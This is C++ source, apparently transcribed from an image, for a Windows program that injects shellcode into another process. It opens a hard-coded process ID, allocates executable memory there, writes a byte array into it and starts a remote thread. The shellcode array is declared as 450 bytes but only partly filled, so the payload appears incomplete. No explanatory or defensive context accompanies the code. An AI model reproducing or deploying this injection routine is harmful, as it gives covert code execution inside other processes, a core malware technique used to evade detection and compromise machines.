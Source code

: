     #include <windows.h>
    #include <iostream>
    
    using namespace std;
    
    unsigned char shellcode[450] =
    {
        0x55, 0x8B, 0xEC, 0x83, 0xEC, 0x5C, 0x53, 0x56, 0x57, 0xE8, 0xD2, 0x00, 0x00, 0x00, 0x8B, 0xC8,
        0xE8, 0xEB, 0x00, 0x00, 0x00, 0x8B, 0xF0, 0xC7, 0x45, 0xD8, 0x4C, 0x6F, 0x61, 0x64, 0x8D, 0x45,
        0xD8, 0xC7, 0x45, 0xDC, 0x4C, 0x69, 0x62, 0x72, 0x50, 0xC7, 0x45, 0xE0, 0x61, 0x72, 0x79, 0x57,
        0xC6, 0x45, 0xE4, 0x00, 0xE8, 0xA7, 0x00, 0x00, 0x00, 0x50, 0xFF, 0xD6, 0x33, 0xC9, 0xC7, 0x45,
        0xC0, 0x75, 0x00, 0x73, 0x00, 0x66, 0x89, 0x4D, 0xD4, 0x8D, 0x4D, 0xE8, 0x51, 0x8D, 0x4D, 0xC0,
        0x5D, 0xC3
    };
    
    int main(int argc, char *argv[])
    {
        DWORD targetPid = 2816;
    
        HANDLE h_target = NULL;
        LPVOID p_base = NULL;
        HANDLE h_thread = NULL;
    
        h_target = OpenProcess(PROCESS_ALL_ACCESS, FALSE, targetPid);
        if (h_target == NULL)
        {
            goto main_end;
        }
    
        p_base = VirtualAllocEx(h_target, NULL, sizeof(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
        if (p_base == NULL)
        {
    
            goto main_end;
        }
    
        if (!WriteProcessMemory(h_target, p_base, (LPVOID)shellcode, sizeof(shellcode), NULL)) {
            goto main_end;
        }
    
        h_thread = CreateRemoteThread(h_target, 0, 0, (LPTHREAD_START_ROUTINE)p_base, NULL, 0, NULL);
        if (h_thread == NULL)
        {
            goto main_end;
        }
    
    main_end:
        if (h_target)
            CloseHandle(h_target);
        if (h_thread)
            CloseHandle(h_thread);
        getchar();
        return 0;
    }
    
